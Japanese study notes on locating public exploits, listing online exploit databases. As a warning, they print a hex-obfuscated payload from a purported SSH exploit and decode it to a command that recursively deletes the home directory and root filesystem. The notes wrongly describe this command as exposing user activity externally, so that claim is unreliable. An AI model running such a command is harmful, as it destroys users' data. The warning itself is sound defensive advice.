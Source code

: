 # パブリックエクスプロイトの特定

## 概要
パブリックエクスプロイトの悪用というのは、既に公開されている脆弱性を突くようなエクスプロイトを検索し、そのエクスプロイトを使用するプロセスのこと。  
  
ここで重要になるのは、公開されているエクスプロイトを検索するスキルと、エクスプロイトが刺さるようにカスタムできるスキル。  
  
## 重要な注意事項
公開されているエクスプロイトをダウンロード・実行するというのは大きなリスクを伴うということを理解するべき。  
  
例えば実例として、**OpenOwn**を使用したSSHのリモートエクスプロイトを見てみる。
```
\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f
\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26
```
そこには上記の文字列があるが、これは16進数でエンコードされており、デコードすると以下になる。
```
rm -rf ~ /* 2> /dev/null &
```
上記の文字列は、外部にユーザの行動を公開する可能性がある危険性のあるエクスプロイトである。  
  
上記のような危険なエクスプロイトもあるため、パブリックエクスプロイトを利用するときは必ずコードを読んで動きを理解すること。


## Online Exploit Resources
パブリックエクスプロイトを探すときのリソース  
  
1. [ExploitDB](https://www.exploit-db.com/)
2. [Packet Storm](https://packetstormsecurity.com/) => ニュースサイトみたいなやつ
3. [Offsec Repositry](https://github.com/offensive-security)
4. Google検索:   
検索例  
"Microsoft Edge site:exploit-db.com"

## Offline Exploit Resources
インターネットアクセスできない場合でもExploitを探す方法。  
